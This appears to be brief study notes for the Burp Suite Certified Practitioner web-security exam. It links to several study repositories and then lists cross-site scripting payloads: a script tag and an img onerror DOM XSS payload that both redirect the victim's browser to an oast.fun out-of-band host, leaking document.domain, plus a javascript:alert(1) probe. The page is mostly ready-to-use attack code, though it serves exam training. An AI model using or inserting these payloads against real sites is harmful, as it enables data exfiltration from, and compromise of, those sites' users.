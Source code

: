 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS


```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

